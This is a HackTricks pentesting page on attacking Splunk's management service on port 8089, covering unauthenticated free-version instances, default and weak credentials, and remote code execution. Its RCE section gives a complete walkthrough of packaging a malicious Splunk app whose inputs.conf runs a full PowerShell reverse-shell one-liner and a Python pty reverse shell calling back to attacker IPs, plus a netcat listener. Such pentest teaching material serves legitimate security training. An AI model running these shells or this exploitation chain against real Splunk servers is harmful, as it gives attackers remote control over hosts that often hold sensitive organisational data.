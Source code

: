# 8089 - Pentesting Splunkd

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## **Basic Information**

**Splunk** is a **log analytics tool** used to gather, analyze and visualize data. Though not originally intended to be a SIEM tool, Splunk is often used for **security monitoring and business analytics**. Splunk deployments are often used to house **sensitive data** and could provide a wealth of information for an attacker if compromised.

**Default port:** 8089

```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```

{% hint style="info" %}
The **Splunk web server runs by default on port 8000**.
{% endhint %}

## Enumeration

### Free Version

The Splunk Enterprise trial converts to a **free version after 60 days**, which **doesn’t require authentication**. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is **subsequently forgotten about**. This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment. Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.

### Default Credentials

On older versions of Splunk, the default credentials are **`admin:changeme`**, which are conveniently displayed on the login page.\
However, **the latest version of Splunk** sets **credentials** **during the installation process**. If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Obtain Information

Once logged in to Splunk, we can **browse data,** run **reports**, create **dashboards**, **install applications** from the Splunkbase library, and install custom applications.\
You can also run code: Splunk has multiple ways of **running code**, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts. A common method of gaining remote code execution on a Splunk server is through the use of a scripted input.

Moreover, as Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts.

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

A custom application can run **Python, Batch, Bash, or PowerShell scripts**.\
Note that **Splunk comes with Python installed**, so even in **Windows** systems you will be able to run python code.

You can use [**this**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us. The **`bin`** directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure:

```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```

The **`bin`** directory will contain any **scripts that we intend to run** (in this case, a **PowerShell** reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a **PowerShell one-liner:**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk **which script to run** and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the `.bat` file, which will run when the application is deployed and execute the PowerShell one-liner.

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`. **** As **soon as we upload the application**, a **reverse shell is received** as the status of the application will automatically be switched to `Enabled`.

#### Linux

If we were dealing with a **Linux host**, we would need to **edit the `rev.py` Python script** before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

### RCE & Privilege Escalation

In the following page you can find an explanation how this service can be abused to escalate privileges and obtain persistence:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
